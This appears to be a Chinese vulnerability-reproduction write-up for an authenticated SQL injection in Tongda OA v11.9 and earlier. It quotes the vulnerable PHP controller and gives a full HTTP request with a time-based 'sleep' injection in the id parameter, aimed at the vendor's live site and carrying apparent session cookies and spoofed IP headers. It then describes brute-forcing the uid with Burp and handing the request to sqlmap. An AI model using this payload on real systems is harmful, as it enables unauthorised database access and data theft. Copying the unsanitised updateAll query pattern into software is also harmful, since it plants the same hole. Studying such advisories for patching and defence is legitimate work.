 # 通达OA v11.9 后台SQL注入漏洞

## 漏洞描述

通达OA v11.9 及以下版本中由于某些参数过滤不完善导致后台存在SQL注入漏洞

## 漏洞影响

> [!NOTE]
>
> 通达OA <=  v11.9

## 环境搭建

```
https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe
```

双击安装

![](http://wikioss.peiqi.tech/vuln/tongdaoa-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞复现

漏洞文件位 **webroot/general/appbuilder/modules/portal/controllers/WorkbenchController.php**

```
public function actionUpsharestatus()
	{
		Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
		$data = modules\appdesign\models\AppUtils::toGBK($_POST);

		if (modules\portal\controllers\intval($data["uid"]) == $_SESSION["LOGIN_UID"]) {
			modules\portal\models\PortalWorkbench::updateAll(array("state" => "{$data["status"]}"), "id={$data["id"]}");
		}
		else if ($data["status"] == 1) {
			modules\portal\models\PortalWorkbenchState::deleteAll(array("wids" => "{$data["id"]}", "uid" => "{$_SESSION["LOGIN_UID"]}"));
		}
		else {
			$Work = new modules\portal\models\PortalWorkbenchState();
			$Work->wids = $data["id"];
			$Work->uid = $_SESSION["LOGIN_UID"];
			$Work->save();
		}

		$dataBack = array("status" => 1, "msg" => modules\portal\controllers\_("操作成功"));
		$dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBack);
		return $dataBack;
	}
```

![](http://wikioss.peiqi.tech/vuln/tongdaoa-42.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

其中 **updateAll()** 函数并没有使用防止 SQL注入的 **sql_injection()** 来防止注入

**webroot/inc/conn.php**

![](http://wikioss.peiqi.tech/vuln/tongdaoa-43.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

所以这里就出现了 id 参数存在注入的情况，请求包如下

```
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Host: oa.tongda2000.com
Connection: close
Content-Length: 36
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Origin: https://oa.tongda2000.com
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://oa.tongda2000.com/general/appbuilder/web/portal/workbench/upsharestatus
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __root_domain_v=.tongda2000.com; SID_12=5ea03399; USER_NAME_COOKIE=chenqiang; Hm_lvt_7cbefde9059536a2b96aaafc134d625c=1617014067,1617196083; _qddaz=QD.677915359373668; PHPSESSID=nso4iqhvp2qi464eoavk2fn0c0; OA_USER_ID=chenqiang; SID_15=ded66d80; LAST_OPERATION_TIME=1617242241
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

uid=15&status=1&id=1;select sleep(4)
```

注意 uid参数 要为当前用户的uid才能完成请求，可以使用 burp 遍历查看时间响应

例如这里使用官网的测试账户 uid 遍历出为 15

![](http://wikioss.peiqi.tech/vuln/tongdaoa-45.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

如果uid错误则不会出现时间延迟，将请求包放入 Sqlmap跑一下

![](http://wikioss.peiqi.tech/vuln/tongdaoa-46.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

